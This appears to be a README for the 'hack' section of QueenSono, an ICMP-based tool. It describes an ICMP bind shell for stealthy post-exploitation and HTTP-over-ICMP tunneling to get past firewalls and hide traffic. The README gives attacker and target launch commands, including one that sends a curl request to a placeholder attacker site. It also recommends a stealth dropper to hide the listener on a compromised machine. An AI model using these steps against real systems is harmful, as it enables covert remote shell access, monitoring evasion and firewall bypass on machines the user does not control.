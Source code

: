 # Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`

* [Bind Shell](#bind-shell)
* [HTTP over ICMP tunneling](#http-over-icmp-tunneling)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo. Should I adapt it to use ICMP ? 🤔*

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattacersite.com -H \"toto:titi\"
```

